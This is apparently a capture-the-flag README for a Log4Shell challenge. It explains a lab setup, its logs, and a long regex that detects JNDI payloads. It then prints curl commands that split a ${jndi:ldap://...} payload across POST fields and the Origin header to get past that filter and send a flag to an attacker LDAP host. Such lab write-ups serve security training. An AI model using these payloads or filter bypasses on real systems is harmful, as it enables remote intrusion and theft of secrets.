



# Chain4Fun
Network forensic combined with spicy log4j vulnerability exploitation
## Structure 
This challenge is made of two docker containers that shares a private network (same setup as [Salty challenge](https://github.com/oldboy21/Challenges-CTC/tree/master/CTC21/ctc-network-salty) of CTC2021). Please check out the initiate.sh script to understand all the steps taken in order to develop the virtual environment. In order to start the challenge the partecipant will have to SSH into the master container.  
## Walkthrough
The user is given non-privileged SSH access to the master machine, in the home folder of the ctc user the following script is found:
```
echo "Running test APIs"
curl -s -X POST -H 'Origin: 192.168.32.1' -d "train=sprinter&company=NS&price=1389&accepted=true" http://10.0.0.8:8080/demo/ctc > /dev/null
sleep 1
curl -s -X POST -H 'Origin: 255.255.255.0' -d "train=intercitydirect&company=NS&price=8080&accepted=false" http://10.0.0.8:8080/demo/ctc > /dev/null
sleep 1
curl -X POST -H 'Origin: 127.0.0.1' -d "train=tram&company=HTA&price=21&accepted=true" http://10.0.0.8:8080/demo/ctc > /dev/null
echo "Retrieving some logs for debugging"
sleep 1
wget http://10.0.0.8:8080/demo/stuff -O application.log
```
The script is executable but **not readable** by the ctc user: 
```
ctc@843b9398a6fd:~$ sudo -l
Matching Defaults entries for ctc on 843b9398a6fd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ctc may run the following commands on 843b9398a6fd:
    (root) NOPASSWD: /usr/bin/bash /home/ctc/run-tests.sh
```
Once the script is executed, the user will find in the same folder the application.log file. The application.log file content after the first run would look like this: 
```
022-04-08 12:00:33.747  WARN 1 --- [localhost-startStop-1] o.s.b.StartupInfoLogger                  : InetAddress.getLocalHost().getHostName() took 10011 milliseconds to respond. Please verify your network configuration.
2022-04-08 12:00:23.720  INFO 1 --- [localhost-startStop-1] c.e.d.DemoApplication                    : Starting DemoApplication v0.0.1-SNAPSHOT using Java 1.8.0_131 with PID 1 (/usr/local/tomcat/webapps/demo/WEB-INF/classes started by root in /usr/local/tomcat)
2022-04-08 12:00:43.771  INFO 1 --- [localhost-startStop-1] c.e.d.DemoApplication                    : No active profile set, falling back to 1 default profile: "default"
2022-04-08 12:00:44.804  INFO 1 --- [localhost-startStop-1] w.s.c.ServletWebServerApplicationContext : Root WebApplicationContext: initialization completed in 1003 ms
2022-04-08 12:00:45.670  INFO 1 --- [localhost-startStop-1] c.e.d.DemoApplication                    : Started DemoApplication in 67.812 seconds (JVM running for 86.543)
2022-04-08 12:00:46.258  INFO 1 --- [http-apr-8080-exec-1] o.s.w.s.DispatcherServlet                : Initializing Servlet 'dispatcherServlet'
2022-04-08 12:00:46.260  INFO 1 --- [http-apr-8080-exec-1] o.s.w.s.DispatcherServlet                : Completed initialization in 1 ms
2022-04-08 12:00:46.374  INFO 1 --- [http-apr-8080-exec-1] HelloWorld                               : true:192.168.32.1:1389sprinter
2022-04-08 12:00:46.375  INFO 1 --- [http-apr-8080-exec-1] HelloWorld                               : Request elaborated
2022-04-08 12:00:47.406  INFO 1 --- [http-apr-8080-exec-3] HelloWorld                               : false:255.255.255.0:8080intercitydirect
2022-04-08 12:00:47.406  INFO 1 --- [http-apr-8080-exec-3] HelloWorld                               : Request elaborated
2022-04-08 12:00:48.421  INFO 1 --- [http-apr-8080-exec-5] HelloWorld                               : true:127.0.0.1:21tram
2022-04-08 12:00:48.421  INFO 1 --- [http-apr-8080-exec-5] HelloWorld                               : Request elaborated
2022-04-08 12:00:49.432  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : Showing environment variables for debugging
2022-04-08 12:00:49.437  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : TOMCAT_ASC_URL
2022-04-08 12:00:49.438  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : HOSTNAME
2022-04-08 12:00:49.438  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : TOMCAT_VERSION
2022-04-08 12:00:49.438  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : CATALINA_HOME
2022-04-08 12:00:49.438  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : LD_LIBRARY_PATH
2022-04-08 12:00:49.438  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : PATH
2022-04-08 12:00:49.438  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : GPG_KEYS
2022-04-08 12:00:49.439  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : PWD
2022-04-08 12:00:49.439  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : CTCFLAG
[...]
```
An updated application.log file is retrieved each time the script showed above is ran.  At this point the partecipant should realize we are talking about the infamous [log4shell](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44832) vulnerability and that one of the environment variables of the docker container is called **CTCFLAG**. The tool tcpdump has been granted of raw packet captures and network interface manipulation capabilities hence it can be ran without the need of root permissions. In order to understand what's really happening the partecipant must run tcpdump on the *c_x_eth0* interface and then run again the run-tests.sh script obtaining a network capture file that would look like this: 



Comparing the application.log file content and the HTTP requests sent to the target container the partecipant can figure out the way the input is logged by the backend. The different parameters part of the HTTP POST body are concatenated in one string and then *logger.info(body)-ed*. Therefore the application is vulnerable to log4j payload but the payload must be splitted properly among the different parameters included in the body of the HTTP request (also keep in mind some chars of the classic log4shell payload must be omitted since already included in the log structure). Moreover a filter is implemented in order to block payloads that are not chained as supposed by the challenge structure (For instance, without filtering applied a normal payload would work in the Origin HTTP header). 



In order to filter the payload the following regex is implemented: 

```
(?im)(?:^|[\n]).*?(?:[\x24]|%(?:25%?)*24|\\u?0*(?:44|24))(?:[\x7b]|%(?:25%?)*7b|\\u?0*(?:7b|173))[^\n]*?((?:j|%(?:25%?)*(?:4a|6a)|\\u?0*(?:112|6a|4a|152))[^\n]*?(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))[^\n]*?((?:l|%(?:25%?)*(?:4c|6c)|\\u?0*(?:154|114|6c|4c))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))(?:[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163)))?|(?:r|%(?:25%?)*(?:52|72)|\\u?0*(?:122|72|52|162))[^\n]*?(?:m|%(?:25%?)*(?:4d|6d)|\\u?0*(?:4d|155|115|6d))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))|(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))){2}[^\n]*?(?:o|%(?:25%?)*(?:4f|6f)|\\u?0*(?:6f|4f|157|117))[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))|(?:c|%(?:25%?)*(?:43|63)|\\u?0*(?:143|103|63|43))[^\n]*?(?:o|%(?:25%?)*(?:4f|6f)|\\u?0*(?:6f|4f|157|117))[^\n]*?(?:r|%(?:25%?)*(?:52|72)|\\u?0*(?:122|72|52|162))[^\n]*?(?:b|%(?:25%?)*(?:42|62)|\\u?0*(?:102|62|42|142))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))|(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:h|%(?:25%?)*(?:48|68)|\\u?0*(?:110|68|48|150))(?:[^\n]*?(?:t|%(?:25%?)*(?:54|74)|\\u?0*(?:124|74|54|164))){2}[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))(?:[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163)))?)[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))|(?:b|%(?:25%?)*(?:42|62)|\\u?0*(?:102|62|42|142))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))[^\n]*?(?:e|%(?:25%?)*(?:45|65)|\\u?0*(?:45|145|105|65))[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))(JH[s-v]|[\x2b\x2f-9A-Za-z][CSiy]R7|[\x2b\x2f-9A-Za-z]{2}[048AEIMQUYcgkosw]ke[\x2b\x2f-9w-z]))
```
Example of successful exploitation:

```
curl -X POST -H 'Origin: ldap://10.0.0.7' -H 'Content-Type: application/json' --data 'train=}&company=NS&price=1389/a&accepted=${jndi' http://10.0.0.8:8080/demo/ctc
```
```
curl -X POST -H 'Origin: ldap://10.0.0.7:1389/a}' -H 'Content-Type: application/json' --data 'train=}&company=NS&price=1389/a&accepted=${jndi' http://10.0.0.8:8080/demo/ctc
``` 



Partecipants do not need to obtain a shell access to the target machine, as showed in the picture the environment variable containing the flag can be part of the LDAP redirect object. Nonetheless, if they enumerate the JAVA version and compile the right Java exploit they would be able to access to the target machine. 


